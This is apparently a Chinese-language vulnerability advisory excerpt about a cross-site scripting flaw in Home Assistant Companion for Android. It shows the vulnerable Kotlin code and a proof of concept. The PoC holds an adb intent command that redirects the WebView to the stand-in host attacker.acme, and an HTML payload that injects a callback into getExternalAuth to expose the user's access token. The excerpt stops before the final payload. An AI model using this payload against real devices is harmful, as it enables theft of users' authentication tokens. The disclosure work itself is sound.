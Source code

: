 ```bash
override fun onGetExternalAuth(context: Context, callback: String, force: Boolean) {
mainScope.launch {
    try {
        view.setExternalAuth("$callback(true,                     ${serverManager.authenticationRepository(serverId).retrieveExternalAuthentication(force)})")
    } catch (e: Exception) {
        // --snip--
    }
}
```

setExternalAuth 函数最终会对使用攻击者控制的构造数据构建的 JavaScript 代码进行评估，这引入了一个跨站脚本（XSS）漏洞。

```bash
override fun setExternalAuth(script: String) {
    webView.post {
        webView.evaluateJavascript(script, null)
    }
}
```

在这种情况下，攻击者可以通过将一个任意函数作为 callback 参数来创建一个漏洞，目的是窃取用户的认证令牌。因此，这个漏洞可能导致在 WebView 中执行任意 JavaScript 代码，有限的执行原生代码，以及潜在的凭证盗窃风险。

### Poc

针对 MyActivity 的一个 Intent 可以用于启动一个本地攻击，也就是说，由安装在 Home Assistant Companion for Android 同一设备上的恶意或受损应用程序发起的攻击。

```bash
adb shell am start -n
io.homeassistant.companion.android.debug/io.homeassistant.companion.android.launch.my.MyActivity -d '"https://attacker.acme/exploit"' -a android.intent.action.VIEW
```

这将会重定向最初的 WebView 到攻击者的网站[https://attacker.acme/exploit，在那里它可以提供类似于以下内容的服务或内容：](https://attacker.acme/exploit%EF%BC%8C%E5%9C%A8%E9%82%A3%E9%87%8C%E5%AE%83%E5%8F%AF%E4%BB%A5%E6%8F%90%E4%BE%9B%E7%B1%BB%E4%BC%BC%E4%BA%8E%E4%BB%A5%E4%B8%8B%E5%86%85%E5%AE%B9%E7%9A%84%E6%9C%8D%E5%8A%A1%E6%88%96%E5%86%85%E5%AE%B9%EF%BC%9A)

```bash
<html>
    <head>
        <script>
document.location = "homeassistant://navigate/entityId:\"}}));externalApp.getExternalAuth('{\"callback\": \"function func(a,b){alert(b.access_token);};func\", \"force\": \"true\"}');//";
        </script>
    </head>
    <body>
        <h1>Nothing to see here</h1>
    </body>
</html>
```

请注意，重定向包括了`homeassistant://navigate/`，以利用`shouldOverrideUrlLoading`函数并访问`WebViewActivity`。此外，它添加了`entityId`来利用跨站脚本（XSS）漏洞。在注入后，有效 payload 如下所示（为了清晰，添加了换行）：
